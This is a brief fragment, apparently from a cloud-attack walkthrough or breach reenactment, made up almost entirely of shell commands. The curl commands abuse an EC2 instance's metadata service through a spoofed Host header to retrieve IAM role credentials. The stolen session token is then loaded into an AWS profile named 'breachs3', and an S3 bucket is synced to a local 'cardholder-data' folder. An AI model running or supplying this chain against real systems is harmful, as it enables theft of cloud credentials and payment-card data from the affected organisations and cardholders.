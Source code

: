 `curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`

​
`curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`

​
`aws configure --profile breachs3`

​
`echo 'aws_session_token = <token>' >> ~/.aws/credentials`

​
`aws s3 ls --profile breachs3`

​
`aws s3 sync s3://<bucket-name> ./cardholder-data --profile breachs3`
